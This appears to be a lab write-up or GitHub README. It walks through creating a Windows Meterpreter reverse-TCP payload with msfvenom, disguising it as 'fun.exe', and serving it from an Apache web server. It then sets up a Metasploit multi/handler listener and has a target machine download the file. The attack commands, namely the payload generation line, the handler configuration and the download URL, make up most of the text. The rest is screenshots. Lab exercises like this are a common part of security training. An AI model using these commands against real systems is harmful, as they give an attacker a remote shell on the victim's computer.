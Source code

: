 ### PROGRAM:

Find the attackers ip address using ifconfig

### Output:



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:

<img width="880" height="385" alt="Screenshot 2025-10-06 090020" src="https://github.com/user-attachments/assets/2f6a1c68-586e-4576-ba3e-49b9db8bd8aa" />
<img width="839" height="164" alt="Screenshot 2025-10-06 090026" src="https://github.com/user-attachments/assets/2261b006-1772-4ae6-9b7a-db65d5b63741" />


copy the fun.exe into the apache ```/var/www/html ```folder

<img width="333" height="53" alt="Screenshot 2025-10-06 090346" src="https://github.com/user-attachments/assets/f78b21ec-0f04-4a33-9f80-cf46c91735eb" />


Start apache server ```sudo systemctl apache2 start``` 

<img width="349" height="55" alt="Screenshot 2025-10-06 090350" src="https://github.com/user-attachments/assets/78838929-378f-48f5-8145-950bcaf58482" />


Check the status of apache2 ```sudo apache2 status```

<img width="1909" height="563" alt="Screenshot 2025-10-06 090357" src="https://github.com/user-attachments/assets/1608f1ab-2625-4fd2-9e50-ed354babaf7a" />

Invoke msfconsole:

<img width="857" height="638" alt="Screenshot 2025-10-06 090523" src="https://github.com/user-attachments/assets/876009cb-6eff-4b0f-9a9c-a6596821b05f" />


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="939" height="845" alt="Screenshot 2025-10-06 090530" src="https://github.com/user-attachments/assets/8c734900-ddd8-42dd-8464-1bbeeb68d59f" />


Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

<img width="805" height="260" alt="Screenshot 2025-10-06 090644" src="https://github.com/user-attachments/assets/57d5771f-ae11-4331-9745-c5fa85907250" />


### Output 


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.

<img width="1919" height="1139" alt="Screenshot 2025-10-06 090448" src="https://github.com/user-attachments/assets/0441c906-9b88-4b5c-83f7-3dd926a0eab7" />
